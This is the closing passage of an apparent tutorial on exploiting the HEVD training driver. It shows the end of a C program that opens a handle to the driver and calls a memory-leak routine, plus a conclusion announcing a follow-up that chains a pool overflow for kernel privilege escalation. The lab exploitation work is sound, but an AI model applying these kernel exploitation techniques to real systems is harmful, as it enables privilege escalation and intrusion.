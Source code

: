 ```c
      }
    }
  }
}

void main(void)
{
  // Open a handle to the driver
  printf("[+] Obtaining handle to HEVD.sys...\n");

  HANDLE drvHandle = CreateFileA(
    "\\\\.\\HackSysExtremeVulnerableDriver",
    GENERIC_READ | GENERIC_WRITE,
    0x0,
    NULL,
    OPEN_EXISTING,
    0x0,
    NULL
  );

  // Error handling
  if (drvHandle == (HANDLE)-1)
  {
    printf("[-] Error! Unable to open a handle to the driver. Error: 0x%lx\n", GetLastError());
    exit(-1);
  }
  else
  {
    memLeak(drvHandle);
  }
}

```

Conclusion
---

Kernel exploits from browsers, which are sandboxed, require such leaks to perform successful escalation of privileges. In part two of this series we will combine this bug with HEVD's pool overflow vulnerability to achieve a read/write primitive and perform successful EoP! Please feel free to reach out with comments, questions, or corrections!

Peace, love, and positivity :-)
